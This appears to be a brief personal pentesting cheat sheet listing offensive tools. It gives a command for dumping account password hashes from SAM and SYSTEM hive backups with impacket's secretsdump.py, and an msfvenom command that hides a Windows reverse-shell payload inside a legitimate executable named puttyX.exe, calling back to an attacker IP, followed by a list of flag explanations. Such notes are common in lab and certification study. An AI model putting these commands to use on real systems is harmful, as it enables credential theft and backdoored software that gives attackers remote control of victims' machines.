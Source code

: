 # List of useful tools

## Crypto Cracking

### impacket -> secretsdump.py
Clone the repo

`cd /opt && git clone https://github.com/fortra/impacket`

Use case

`python3 /opt/impacket/examples/secretsdump.py -sam <sam.bak file> -system <system.bak file> LOCAL`

This will dump users and hashes associated with the accounts.

## msfvenom

This is a large program and I will add things here eventually!

`msfvenom -a x64 --platform windows -x <executable name> -k -p windows/x64/shell_reverse_tcp lhost=<Attacker IP> lport=4444 -b "\x00" -f exe -o puttyX.exe`

### flags
* `--list <type>`: will show all modules for type. Use type `all` to list all
* `-a`: architecture of system
* `--platform`: windows/linux/etc
* `-x`: executables name
* `-k`: keep the behavior of the executable, but add payload as new thread
* `-p`: module to use ex. `windows/x64/shell_reverse_tcp`
* `-b`: bad bytes
* `-f`: output format
* `-o`: name of the output executable